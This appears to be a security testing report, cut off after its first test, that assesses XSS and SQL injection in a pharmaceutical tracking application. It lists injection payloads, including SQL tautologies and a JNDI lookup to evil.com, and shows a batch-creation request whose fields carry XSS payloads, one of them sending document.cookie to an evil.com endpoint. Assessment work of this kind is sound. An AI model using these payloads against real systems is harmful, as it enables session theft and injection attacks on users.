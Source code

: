 # Injection Vulnerability Testing Report
## XSS and SQL Injection Assessment - PharmaChain Application

### EXECUTIVE SUMMARY
**Assessment Date**: January 21, 2025  
**Target Application**: PharmaChain Pharmaceutical Tracking System  
**Testing Method**: Injection Payload Submission and Validation  
**Overall Risk**: 🔴 **CRITICAL** - Complete input validation failure

---

## INJECTION TESTING METHODOLOGY

### Test Scope
- **XSS (Cross-Site Scripting)**: Script injection in all input fields
- **SQL Injection**: Database query manipulation attempts
- **Template Injection**: Server-side template exploitation
- **File Path Injection**: Directory traversal attempts
- **Polyglot Payloads**: Multi-context injection vectors

### Testing Tools & Payloads
- **Basic XSS**: `<script>alert(1)</script>`
- **Event-based XSS**: `<img src=x onerror=alert(1)>`
- **SVG XSS**: `<svg onload=alert(1)>`
- **Iframe XSS**: `<iframe src=javascript:alert(1)>`
- **SQL Injection**: `' OR '1'='1'`, `" OR "1"="1"`
- **Template Injection**: `{{7*7}}`, `${jndi:ldap://evil.com}`

---

## XSS INJECTION TEST RESULTS

### Test 1: Pharmaceutical Batch XSS Injection

#### Payloads Submitted to Batch Creation Endpoint
```bash
POST /api/batches
{
  "batchId": "<script>alert(\"XSS_BATCH_ID\")</script>",
  "productName": "<img src=x onerror=alert(\"XSS_PRODUCT\")>",
  "manufacturer": "</script><script>document.location=\"http://evil.com\"</script>",
  "manufacturerLicenseId": "<svg onload=alert(\"SVG_XSS\")>",
  "lotNumber": "<iframe src=javascript:alert(\"IFRAME_XSS\")>",
  "location": "<script>fetch(\"http://evil.com/steal?data=\"+document.cookie)</script>"
}
```

